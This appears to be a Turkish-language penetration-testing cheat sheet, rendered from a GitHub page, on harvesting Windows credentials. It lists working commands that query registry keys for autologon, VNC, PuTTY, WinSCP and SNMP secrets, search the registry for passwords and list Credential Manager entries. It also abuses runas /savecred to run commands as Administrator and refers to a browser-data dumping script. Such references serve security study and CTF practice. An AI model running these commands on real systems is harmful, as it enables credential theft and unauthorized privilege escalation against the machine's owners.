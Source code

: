 ## Kayıt Defterinden Parola Bulma
### Windows Otomatik Giriş
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

### VNC Parolaları
```bash
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server /v PasswordViewOnly"
vncpwd.exe PASSWORD_FROM_ABOVE
```

### SNMP Parametreleri
```bash
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```

### Putty Oturumları
```bash
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

### WinSCP Anahtarlarını Şifre Çözme
```bash
reg query "HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions"
```

Şifre çözmek için [github-winscppassworddecrypt](https://github.com) kullanabilirsiniz.

### Kayıt Defterinde "password" Arama
```bash
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Kimlik Yöneticisindeki Kimlik Bilgileri
```bash
cmdkey /list
dir C:\Users\kullaniciAdi\AppData\Local\Microsoft\Credentials
```

### Kaydedilmiş Kimlik Bilgileri ile Yönetici Olarak Komut Çalıştırma
```bash
runas /user:Administrator /noprofile /savecred "cmd.exe /c type C:\users\administrator\desktop\root.txt > C:\users\noob\root.txt"
```

## Ziyaret Edilen Web Sitelerini Listeleme
`Get-BrowserData.ps1` kullanabilirsiniz.

